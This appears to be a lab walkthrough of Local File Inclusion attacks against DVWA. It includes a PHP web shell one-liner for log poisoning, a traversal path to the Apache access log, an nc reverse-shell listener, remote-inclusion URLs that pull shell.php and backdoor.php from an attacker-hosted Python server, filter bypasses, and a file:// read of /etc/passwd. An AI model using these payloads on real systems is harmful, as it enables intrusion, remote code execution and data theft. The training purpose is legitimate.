

Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server. LFI attacks can expose sensitive information, and in severe cases, they can lead to cross-site scripting (XSS) and remote code execution. LFI is listed as one of the OWASP Top 10 web application vulnerabilities.

File inclusions are a key to any server-side scripting language, and allow the content of files to be used as part of web application code. Here is an example of how LFI can enable attackers to extract sensitive information from a server. If the application uses code like this, which includes the name of a file in the URL:

https://www.brightsec.com/blog/local-file-inclusion-lfi/

Use Burpsuite or Caido you need to get this into the apache log file.

```<?php echo system($_GET['cmd']); ?>```


../../../../../../../../../var/log/apache2/access.log


Low:


Host a python server where your malicious file is located.

`sudo python -m http.server 1337`


Listen for the host's shell. `nc -nvlp 1234`


Pass a php reverse shell file to the host server via the url:


`192.168.10.123/dvwa/vulnerabilities/fi/?page=http://192.168.10.121:1337/shell.php`


Boom!

Medium:
code will remove the `../` in `....//....//` leaving: `../../`


`192.168.10.123/dvwa/vulnerabilities/fi/?page=http://http://192.168.10.121:1337/shell.php`

High:

`http://192.168.10.123/dvwa/vulnerabilities/fi/?page=file:///etc/passwd`




`http://192.168.10.123/dvwa/vulnerabilities/fi/?page=http://192.168.10.121:1337/backdoor.php&cmd=ls`


Resources:

https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/

https://blog.certcube.com/detailed-cheatsheet-lfi-rce-webshells/